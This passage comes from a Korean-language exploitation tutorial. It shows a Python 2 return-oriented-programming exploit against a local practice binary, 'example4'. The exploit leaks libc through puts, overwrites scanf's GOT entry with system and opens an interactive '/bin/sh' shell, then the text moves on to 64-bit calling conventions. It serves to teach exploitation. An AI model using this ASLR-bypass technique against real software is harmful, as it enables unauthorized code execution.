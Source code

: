 ```python
out_r, out_w = pty.openpty()    # to ignore buffer
s = subprocess.Popen("./example4", stdin=subprocess.PIPE, stdout=out_w)
'''
0x804851a <__libc_csu_init+90>:  pop    %edi
0x804851b <__libc_csu_init+91>:  pop    %ebp
0x804851c <__libc_csu_init+92>:  ret    
'''
pop_pop_ret = 0x804851a
pop_ret = pop_pop_ret + 1
scanf_plt = 0x8048340
puts_plt = 0x8048320
puts_got = 0x804a00c
string_fmt = 0x8048559      # "%s"
scanf_got = 0x804a014
print `readline(out_r)`     # Hello World!\n
print `readline(out_r)`     # Hello ASLR!\n
payload  = "A"*36           # buf padding
payload += p32(puts_plt + 6)   # ret addr (puts@plt + 6)
payload += p32(pop_ret)  # ret after puts
payload += p32(scanf_got)   # scanf@got
payload += p32(scanf_plt)
payload += p32(pop_pop_ret)
payload += p32(string_fmt)
payload += p32(scanf_got)
payload += p32(scanf_plt)
payload += p32(0xdeadbeef)
payload += p32(scanf_got+4)
print `payload`
writeline(s, payload)
libc = u32(readline(out_r)[:4]) - 0x5c0c0
system = libc + 0x3ada0
print "libc @ " + hex(libc)
print "system @ " + hex(system)
writeline(s, p32(system)+"/bin/sh\x00")
print "[+] get shell"
while True:
  cmd = raw_input("$ ")
  writeline(s, cmd)
  time.sleep(0.2)
  print read(out_r, 1024)
```

exploit 코드를 실행하면 쉘을 성공적으로 획득한 것을 볼 수 있다.

![image](https://user-images.githubusercontent.com/59410565/119143543-ad3e7b00-ba82-11eb-9939-db16072393e3.png)



# 64비트 ROP

- 32비트 아키텍쳐에서는 함수 호출시 인자를 스택에 저장하는 반면 64비트 아키텍쳐에서는 함수의 인자를 레지스터와 스택에 저장해 전달한다.
- call64.c 는 64비트 아키텍쳐의 함수 호출 규약을 확인하기 위해 printf 함수에 7개의 인자를 전달하여 호출하는 코드이다.
